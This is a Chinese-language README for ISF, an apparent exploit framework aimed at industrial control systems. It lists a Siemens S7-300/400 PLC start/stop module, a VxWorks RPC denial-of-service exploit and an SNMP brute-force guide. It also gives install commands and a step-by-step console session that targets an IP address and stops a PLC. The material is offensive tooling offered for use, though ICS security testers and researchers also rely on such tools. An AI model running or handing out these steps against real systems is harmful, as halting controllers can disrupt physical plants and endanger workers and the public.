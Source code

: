 # 框架介绍
ISF(Industrial Exploitation Framework)，是一款基于python编写的类msf工控漏洞利用框架。该框架基于开源项目[routersploit](https://github.com/reverse-shell/routersploit)修改而来。

# 当前脚本工具

## 工控协议客户端

| Name               | Path                                   | Description            |
| -------------------| ---------------------------------------|:----------------------:|  
| modbus_tcp_client  | icssploit/clients/modbus_tcp_client.py | Modbus-TCP客户端工具    |




## 漏洞利用脚本
| Name                    | Path                                                              | Description                             |
| ------------------------| ------------------------------------------------------------------|:---------------------------------------:|  
| s7_300_400_plc_control  | icssploit/modules/exploits/plcs/siemens/s7_300_400_plc_control.py | S7-300/400 PLC 启停脚本                  |
| vxworks_rpc_dos  | icssploit/modules/exploits/plcs/vxworks/vxworks_rpc_dos.py               | Vxworks RPC 远程拒绝服务（CVE-2015-7599） |


# 安装

## 依赖环境
* gnureadline (OSX only)
* requests
* paramiko
* beautifulsoup4
* pysnmp
* scapy

## 在Kali2中安装
    git clone https://github.com/dark-lbp/isf/
    cd isf
    pip install -r requirements.txt
    python isf.py


# 使用
        root@kali:~/Desktop/temp/isf# python isf.py
        
          _____ _____  _____ _____ _____  _      ____ _____ _______
         |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
           | || |    | (___| (___ | |__) | |   | |  | || |    | |
           | || |     \___ \___ \|  ___/| |   | |  | || |    | |
          _| || |____ ____) |___) | |    | |___| |__| || |_   | |
         |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
        
        
                        ICS Exploitation Framework
        
        Note     : ICSSPOLIT is fork from routersploit at
                   https://github.com/reverse-shell/routersploit
        Dev Team : wenzhe zhu(dark-lbp)
        Version  : 0.1.0
        
        Exploits: 2 Scanners: 0 Creds: 13
        
        ICS Exploits:
            PLC: 2          ICS Switch: 0
            Software: 0
        
        isf >

## Exploits
    isf > use exploits/plcs/
    exploits/plcs/siemens/  exploits/plcs/vxworks/
    isf > use exploits/plcs/siemens/s7_300_400_plc_control
    exploits/plcs/siemens/s7_300_400_plc_control
    isf > use exploits/plcs/siemens/s7_300_400_plc_control
    isf (S7-300/400 PLC Control) >
    
可以使用TAB键来补全路径。

## Options
### 显示 options
    isf (S7-300/400 PLC Control) > show options
    
    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name        Current settings     Description
       ----        ----------------     -----------
       slot        2                    CPU slot number.
       command     1                    Command 0:start plc, 1:stop plc.
    
    
    isf (S7-300/400 PLC Control) >
    
### 设置 options 参数
    isf (S7-300/400 PLC Control) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    

## 执行module
    isf (S7-300/400 PLC Control) > run
    [*] Running module...
    [+] Target is alive
    [*] Sending packet to target
    [*] Stop plc
    isf (S7-300/400 PLC Control) >
    
## 显示module信息
    isf (S7-300/400 PLC Control) > show info
    
    Name:
    S7-300/400 PLC Control
    
    Description:
    Use S7comm command to start/stop plc.
    
    Devices:
    -  Siemens S7-300 and S7-400 programmable logic controllers (PLCs)
    
    Authors:
    -  wenzhe zhu <jtrkid[at]gmail.com>
    
    References:
    
    isf (S7-300/400 PLC Control) >
    
# 说明文档
* [Modbus-TCP客户端工具使用说明](https://github.com/dark-lbp/isf/blob/master/docs/modbus_tcp_client.md)
* [SNMP爆破工具使用说明](https://github.com/dark-lbp/isf/blob/master/docs/snmp_bruteforce.md)